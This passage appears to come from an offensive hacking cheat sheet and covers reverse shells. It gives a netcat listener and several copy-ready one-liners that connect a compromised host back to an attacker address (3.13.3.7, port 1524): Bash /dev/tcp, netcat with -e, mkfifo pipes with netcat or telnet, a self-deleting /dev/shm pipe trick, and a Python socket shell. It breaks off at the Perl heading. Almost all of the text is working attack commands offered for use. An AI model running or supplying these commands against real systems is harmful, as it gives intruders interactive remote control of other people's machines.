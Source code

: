<a id="rswb-anchor"></a>
**5.i.b. Reverse shell with Bash**

Start netcat to listen on port 1524 on your system:
```sh
nc -nvlp 1524
```

On the remote system, this command will connect back to your system (IP = 3.13.3.7, Port 1524) and give you a shell prompt:
```sh
setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &
```

<a id="rswob-anchor"></a>
**5.i.c. Reverse shell without Bash**

Embedded systems do not always have Bash and the */dev/tcp/* trick will not work. There are many other ways (Python, PHP, Perl, ..). Our favorite is to upload netcat and use netcat or telnet:

On the remote system:

```sh
nc -e /bin/bash -vn 3.13.3.7 1524
```

Variant if *'-e'* is not supported:
```sh
mkfifo /tmp/.io
sh -i 2>&1 </tmp/.io | nc -vn 3.13.3.7 1524 >/tmp/.io
```

Telnet variant:
```sh
mkfifo /tmp/.io
sh -i 2>&1 </tmp/.io | telnet 3.13.3.7 1524 >/tmp/.io
```

Telnet variant when mkfifo is not supported (Ulg!):
```sh
(touch /dev/shm/.fio; sleep 60; rm -f /dev/shm/.fio) &
tail -f /dev/shm/.fio | sh -i 2>&1 | telnet 3.13.3.7 1524 >/dev/shm/.fio
```
Note: Use */tmp/.fio* if */dev/shm* is not available.
Note: This trick logs your commands to a file. The file will be *unlinked* from the fs after 60 seconds but remains useable as a 'make shift pipe' as long as the reverse tunnel is started within 60 seconds.

<a id="rswpy-anchor"></a>
**5.i.d. Reverse shell with Python**
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.13.3.7",1524));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<a id="rswpl-anchor"></a>
**5.i.e. Reverse shell with Perl**
